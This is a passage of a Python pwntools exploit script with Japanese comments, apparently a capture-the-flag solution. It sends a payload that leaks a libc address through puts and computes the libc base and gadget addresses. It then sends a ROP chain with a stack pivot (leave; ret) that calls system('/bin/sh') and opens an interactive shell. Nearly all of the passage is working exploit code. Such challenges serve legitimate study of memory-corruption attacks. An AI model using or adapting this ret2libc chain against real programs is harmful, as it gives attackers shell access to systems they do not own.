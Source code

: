 ```python
payload += p64(program_base + 0x4860)                                       # ループ後のread()の第2引数(rdi) にbss領域のアドレスをいれるため
payload += p64(program_base + binary.symbols['vuln'] + 18)                  # puts@plt = vuln + 18    ※ rdiにlibc関数(IO_funlockfile)がはいってたため、そのままleak
session.send(payload)

#2nd recive
res = session.recvuntil(b'\n> ')
print("------------------------------------")
print(res)
parts = res.split(b'\n')                                                    # 改行で分割

#リークアドレスに\nが含まれているかもしれない場合の緩和策。
if len(parts) > 3:
    if len(parts[-2]) < 6:
        parts[-2] = parts[-3] + b'\n' + parts[-2]

libc_IO_funlockfile_byte = parts[-2]                                          # リークしたアドレスに改行を含む場合があるので、最後の直前の改行～最後の改行までの間のバイナリ文字列(putsでリークしたアドレス)を取得          
libc_IO_funlockfile_addr = int.from_bytes(libc_IO_funlockfile_byte, 'little') # puts関数は終端文字(\x00)以降を出力できないため、リークするアドレスに\0が含まれる場合はリーク不可のため異常終了を甘んじて受け入れる。
#calculation
print("------------------------------------")
rop = ROP(libc)
libc_base_addr   = libc_IO_funlockfile_addr - libc.symbols['_IO_funlockfile']
binsh_addr       = libc_base_addr + next(libc.search(b"/bin/sh"))
system_addr      = libc_base_addr + libc.symbols['system']
leave_ret_addr   = libc_base_addr + rop.find_gadget(['leave', 'ret']).address
ret_addr         = libc_base_addr + rop.find_gadget(['ret']).address
pop_rdi_ret_addr = libc_base_addr + rop.find_gadget(['pop rdi', 'ret']).address

print("------------------------------------")
print(f"{'libc_base_addr:':18} 0x{libc_base_addr:016x}")
print(f"{'system_addr:':18} 0x{system_addr:016x}")
print(f"{'binsh_addr:':18} 0x{binsh_addr:016x}")
print(f"{'leave_ret_addr:':18} 0x{leave_ret_addr:016x}")
print(f"{'ret_addr:':18} 0x{ret_addr:016x}")
print(f"{'pop_rdi_ret_addr:':18} 0x{pop_rdi_ret_addr:016x}")

#rop
payload = b'c' * 8
payload += p64(ret_addr)                         #アライメント調整
payload += p64(pop_rdi_ret_addr)
payload += p64(binsh_addr)
payload += p64(system_addr)

#pivot
payload += p64(0)                                #なんでもいいよ
payload += p64(program_base + 0x4830)
payload += p64(leave_ret_addr)

#3rd send
session.send(payload)
session.interactive()
```
